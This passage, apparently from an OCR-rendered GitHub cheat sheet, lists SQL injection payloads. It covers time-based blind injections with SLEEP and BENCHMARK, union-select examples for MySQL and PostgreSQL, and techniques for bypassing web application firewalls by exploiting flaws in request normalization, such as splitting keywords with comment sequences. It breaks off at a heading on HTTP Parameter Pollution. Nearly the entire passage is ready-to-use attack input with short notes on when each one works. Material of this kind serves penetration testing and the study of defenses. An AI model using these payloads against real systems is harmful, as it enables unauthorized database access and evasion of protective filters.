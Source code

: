     SLEEP(5)--
    SELECT BENCHMARK(1000000,MD5('A'));
    id=1 OR SLEEP(25)=0 LIMIT 1--
    id=1) OR SLEEP(25)=0 LIMIT 1--
    id=1' OR SLEEP(25)=0 LIMIT 1--
    id=1') OR SLEEP(25)=0 LIMIT 1--
    id=1)) OR SLEEP(25)=0 LIMIT 1--
    id=SELECT SLEEP(25)--

1.  Exploitation features for various DBMSs



```
  Example: (MySQL): SELECT * from table where id = 1 union select 1,2,3
  Example: (PostgreSQL): SELECT * from table where id = 1; select 1,2,3
```

**Bypassing WAF: SQL Injection - Normalization Method**
Example Number (1) of a vulnerability in the function of request
Normalization.
• The following request doesn’t allow anyone to conduct an attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request

` will be successfully performed`
` /?id=1/*union*/union/*select*/select+1,2,3/*`

• After being processed by WAF, the request will become

` index.php?id=1/*uni X on*/union/*sel X ect*/select+1,2,3/*`

The given example works in case of cleaning of dangerous traffic, not in
case of blocking the entire request or the attack source.
Example Number (2) of a vulnerability in the function of request
Normalization.
• Similarly, the following request doesn’t allow anyone to conduct an
attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request
will be successfully performed

` /?id=1+un/**/ion+sel/**/ect+1,2,3--`

• The SQL request will become

` SELECT * from table where id =1 union select 1,2,3--`

*Instead of construction /\*\*/, any symbol sequence that WAF cuts off
can be used (e.g., \#\#\#\#\#, %00).*

*The given example works in case of excessive cleaning of incoming data
(replacement of a regular expression with the empty string).*

**'Using HTTP Parameter Pollution (HPP)**'
